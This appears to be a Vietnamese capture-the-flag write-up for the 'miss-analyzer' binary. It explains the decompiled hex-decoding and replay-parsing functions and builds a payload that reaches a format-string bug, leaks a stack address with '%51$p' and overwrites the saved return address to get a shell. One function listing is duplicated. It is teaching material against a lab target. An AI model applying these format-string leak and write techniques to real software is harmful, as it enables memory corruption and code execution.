 # write up miss-analyzer 

- ở bài này đầu tiên phải bắt đầu với hàm hexs2bin
```c
size = hexs2bin(v3, &pointerofbuff);
```
- hàm này có nhiệm vụ chuyển hết các kết quả mà chúng ta nhập vào thành dạng như này
- ví dụ aaaaaabbbbbbbcccccc thành  0xccccbbbbbbabaaaa hoặc  1234abcd6789 thành 0x8967cdab3412
- sau đó mang nó đem đi thực hiện các thao tác ở các hàm khác
- nhưng các ký tự chỉ được nhập trong vùng cho phép

```c
__int64 __fastcall hexchr2bin(char buff, _BYTE *container)
{
  if ( !container )
    return 0LL;
  if ( buff <= '/' || buff > '9' )
  {
    if ( buff <= '@' || buff > 'F' )
    {
      if ( buff <= '`' || buff > 'f' )
        return 0LL;
      *container = buff - 87;
    }
    else
    {
      *container = buff - 55;
    }
  }
  else
  {
    *container = buff - 48;
  }
  return 1LL;
}__int64 __fastcall hexchr2bin(char buff, _BYTE *container)
{
  if ( !container )
    return 0LL;
  if ( buff <= '/' || buff > '9' )
  {
    if ( buff <= '@' || buff > 'F' )
    {
      if ( buff <= '`' || buff > 'f' )
        return 0LL;
      *container = buff - 87;
    }
    else
    {
      *container = buff - 55;
    }
  }
  else
  {
    *container = buff - 48;
  }
  return 1LL;
}
```
- và số ký tự nhập vào phải là số chẵn nếu không chương trình sẽ dừng tại đây
```c
 if ( !size )
    {
      puts("Error: failed to decode hex");
      return 1;
    }
```
- nó thực hiện check qua cái này: 
```c
if ( (size & 1) != 0 )
    return 0LL;
```
- tiếp theo là hàm này

```c
__int64 __fastcall read_byte(_QWORD *pointerofbuff, _QWORD *size)
{
  unsigned __int8 incbuff; // [rsp+1Fh] [rbp-1h]

  if ( !*size )
  {
    puts("Error: failed to read replay");
    exit(1);
  }
  incbuff = *(_BYTE *)(*pointerofbuff)++;
  --*size;
  return incbuff;
}
```
- hàm này sẽ cộng địa chỉ được chứa trong pointerofbuff là buff lên 1 đơn vị và giảm size xuống 1 đơn vị
- vì vậy sau mỗi lần chạy nó sẽ giảm size xuống và số ký tự đc chứa trong địa chỉ ở trong pointerofbuff cũng giảm theo
```c
 consume_bytes(&pointerofbuff, &size, 4);
```
với hàm này cũng có cơ chế tương tự read_bytes nhưng mà ta có thể thay đổi số bytes, số bytes đó sẽ giảm size xuống và tăng giá trị của pointerofbuff theo số bytes đó 
- thông qua các cơ chế trên thì ta có thể nhập bytes cho phù hợp để vượt qua các hàm trên thông qua việc nhập ký tự là 8 bytes a đầu, chủ yếu là các hàm read_bytes và consume_bytes
```c
puts("Submit replay as hex (use xxd -p -c0 replay.osr | ./analyzer):");
    buff = 0LL;
    n = 0LL;
    if ( getline(&buff, &n, stdin) <= 0 )
      break;
    buff[strcspn(buff, "\n")] = 0;
    if ( !*buff )
      break;
    size = hexs2bin(buff, &pointerofbuff);
    if ( !size )
    {
      puts("Error: failed to decode hex");
      return 1;
    }
    puts("\n=~= miss-analyzer =~=");
    choice = read_byte(&pointerofbuff, &size);
    if ( choice )
    {
      switch ( choice )
      {
        case 1:
          puts("Mode: osu!taiko");
          break;
        case 2:
          puts("Mode: osu!catch");
          break;
        case 3:
          puts("Mode: osu!mania");
          break;
      }
    }
    else
    {
      puts("Mode: osu!");
    }
    consume_bytes(&pointerofbuff, &size, 4);
```
- để có thể vượt qua hàm read_string thì ta phải nhập thêm 2 bytes a nữa cộng thêm bytes 0b
```c
 result = (_BYTE *)read_byte(buff, size);
  if ( (_BYTE)result )
  {
    if ( (_BYTE)result != 0xB )
    {
      puts("Error: failed to read string");
      exit(1);
    }
```
- để vượt các vòng lặp dưới nữa của hàm nàyvà có thể điều khiển số bytes nhập vào biến format ta có thể cộng thêm chuỗi nhập vào ban đầu là số nhưng phải bao gồm 2 chữ số
```c
   v10 = 0;
    for ( i = 0; ; i += 7 )
    {
      byte = read_byte(buff, size);
      v10 |= (byte & 127) << i;
      if ( byte >= 0 )
        break;
    }
    for ( j = 0; ; ++j )
    {
      v6 = a4;
      if ( a4 > v10 )
        v6 = v10;
      if ( v6 <= j )
        break;
      a3[j] = read_byte(buff, size);
    }
    while ( v10 > j )
```
- đây chính là nơi mà tạo ra size cho việc nhập format
```c
byte = read_byte(buff, size);
      v10 |= (byte & 127) << i;

```
```c
  read_string(&pointerofbuff, &size, format, '\xFF');
    printf("Hash: %s\n", format);
    read_string(&pointerofbuff, &size, format, 0xFFu);
    printf("Player name: ");
    printf(format);
```
- ở trong payload sẽ bao gồm việc vượt qua các hàm trên để đến được formatstring
```python
b'a'*10 +  b'0b' +b'08' + b'aabaaaaaabaaaaaa' + b'0b' + b'08' +  b'2535312470000000'
```
- format string sẽ được dịch lại tương tự như cách dịch của hàm hexs2bin: 2535312470000000
- sau khi nhập vào thì sẽ leak được địa chỉ và quay lại 1 vòng lặp mới
```assembly
  0x401928 <main+607>    mov    eax, 0
   0x40192d <main+612>    call   printf@plt                      <printf@plt>
 
   0x401932 <main+617>    lea    rax, [rbp - 0x120]
   0x401939 <main+624>    mov    rdi, rax
   0x40193c <main+627>    mov    eax, 0
 ► 0x401941 <main+632>    call   printf@plt                      <printf@plt>
        format: 0x7fffffffe4e0 ◂— 0x7024313525 /* '%51$p' */
        vararg: 0x7fffffffc380 ◂— 0x6e20726579616c50 ('Player n')
 
   0x401946 <main+637>    mov    edi, 0xa
   0x40194b <main+642>    call   putchar@plt                      <putchar@plt>
 
   0x401950 <main+647>    lea    rdx, [rbp - 0x120]
   0x401957 <main+654>    lea    rsi, [rbp - 0x130]
   0x40195e <main+661>    lea    rax, [rbp - 0x128]
```
- sau khi leak được địa chỉ thì đến bước ghi payload, em sẽ có 3 địa chỉ để ghi vào saved-rip, mỗi địa chỉ ghi 3 lần vì thế em cần viết hàm để ghi qua formatstring
- vì hàm main lặp lại nên có thể ghi nhiều lần tùy ý
- sau khi ghi xong và thoát khỏi vòng lặp thì em có thể chạy shell
```c
[*] 0x2563343139383525
[*] 0x202020206e682436
[*] this is part 2 of addr 0x7fffffffe620: 0xf7c5
[*] this is package part 2: 0xe622
[*] Switching to interactive mode

Error: failed to decode hex
$ ls
Dockerfile    analyzer_patched        analyzer_patched.id2  ld-2.35.so
analyzer      analyzer_patched.i64  analyzer_patched.nam  libc.so.6
analyzer.i64  analyzer_patched.id0  analyzer_patched.til  miss.md
analyzer.py   analyzer_patched.id1  flag.txt          start-docker.sh
```
